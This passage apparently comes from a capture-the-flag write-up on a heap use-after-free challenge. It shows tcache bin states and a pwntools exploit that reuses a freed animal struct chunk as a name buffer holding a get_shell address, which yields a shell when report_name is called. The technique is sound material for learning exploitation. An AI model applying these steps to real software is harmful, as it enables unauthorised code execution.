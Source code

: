 ```
Allocated chunk | PREV_INUSE (animal struct chunk)
Addr: 0x3e2892e0
Size: 0x20 (with flag bits: 0x21)

Allocated chunk | PREV_INUSE (name buffer chunk)
Addr: 0x3e289300
Size: 0x30 (with flag bits: 0x31)
```
When freed:
```
tcachebins
0x20 [  2]: 0x3e2892f0 —▸ 0x3e2892a0 ◂— 0 (animal struct chunk)
0x30 [  2]: 0x3e289310 —▸ 0x3e2892c0 ◂— 0 (name buffer chunk)
```
To create the above situation, our python exploit should look like the following:
```py
def add_animal(size, name):
	p.sendlineafter(b"> ", b"1")
	p.sendlineafter(b"> ", b"1")
	p.sendlineafter(b"> ", size)
	p.sendlineafter(b"> ", name)
def remove_animal(number):
	p.sendlineafter(b"> ", b"2")		
	p.sendlineafter(b"> ", number)
	
add_animal(<differentiable size>, "AAAA")
add_animal(<differentiable size>, "AAAA")

remove_animal(b"0") # now goes into tcachebin
remove_animal(b"1") # now goes into tcachebin
```
Now, our target is to add a new `animal` whose `animal` struct chunk allocation would immediately take `0x3e2892f0` away from the tcachebins. Also, we make sure that the size we request for `name` buffer for the new `animal` is less than or equal to 0x20 bytes. So that `0x3e2892a0` which was previously used for `animal` struct chunk would be selected from the tcachebins as well. Just like the following:
```py
add_animal(b"20", p64(sys_addr))
```
we have size 20 ( <= 0x20) for our `name` buffer and `p64(sys_addr)` as the `name`. We would be creating a `name` buffer chunk like the following:
```
01:0008│  0x9570298 ◂— 0x21 /* '!' */
02:0010│  0x95702a0 —▸ 0x401276 (get_shell) ◂— endbr64 
03:0018│  0x95702a8 ◂— 0xa /* '\n' */
```
Still remember that this chunk was previously a chunk used for `animal` struct whose has a pointer from the `zoo.animal[0]` that is not set to `NULL`? Which means if we now `report_name` on `zone 0`, this `name` buffer chunk would be activated as if it is the `animal` struct chunk with `get_shell` at the first struct member field being its function pointer!! In order words, we get the shell if we `report_name` at this particular moment.

